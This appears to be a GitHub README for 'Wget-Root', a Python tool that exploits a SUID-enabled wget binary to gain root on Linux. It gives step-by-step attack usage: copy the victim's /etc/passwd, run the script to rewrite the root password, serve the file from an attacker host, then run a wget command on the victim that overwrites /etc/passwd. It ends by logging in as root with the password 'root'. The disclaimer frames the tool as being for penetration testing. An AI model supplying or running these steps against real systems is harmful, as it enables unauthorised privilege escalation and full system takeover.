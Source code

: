 # Wget-Root

This is a python script that exploits wget when being set with a SUID bit, and overwrites the root password. <br>
**⚠️ Warning:** This script is completly for penetration testing purposes. I do not claim any responsibility if you use it for offensive activities.

# Usage
From the victims shell, copy the /etc/passwd file to your host machine. (Be carefull and do not overwrite your own passwd file) <br>
```bash
python3 wget_exploit --file <passwd copy> --port <webserver port> --interface <network interface/ip>
```
The script will overwrite the <passwd copy> file, containing the changed `root` password. 
Then it will host the passwd file to the web using a python http server.<br>
Run the command `sudo wget http://<host ip>:<webserver port>/passwd -O /etc/passwd` on the victims shell to overwrite the passwd file.<br>
**Congratulations!** 
Now switch users to `root` with the password `root`

![showcase](https://i.imgur.com/1bVzFk8.png)
